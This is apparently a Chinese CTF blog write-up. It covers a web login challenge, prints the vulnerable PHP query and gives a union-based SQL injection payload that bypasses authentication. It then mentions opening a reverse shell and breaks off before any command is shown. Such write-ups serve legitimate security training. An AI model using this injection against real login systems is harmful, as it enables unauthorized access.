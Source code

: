 ```yaml
---
title: 丁牛CTF做题记录
index_img: /img/2019-04-19/index.jpg
date: 2019-04-19 14:15:16
tags: 
- writeup
- misc
- web
- ctf
---
```

都是些旧题，加深印象。


### W2-web1
这个是bugku上的login2，在响应头可以看到tip
![2](/img/2019-04-19/2.png)
解码出来是
```php
$sql="SELECT username,password FROM admin WHERE username='".$username."'";
if (!empty($row) && $row['password']===md5($password)){
}
```
构造payload
```
username=1' union select md5(1),md5(1)#&password=1
```
即可登录成功，登陆成功后可以看到一个命令执行框，反弹个shell即可
![3](/img/2019-04-19/3.png)
主机执行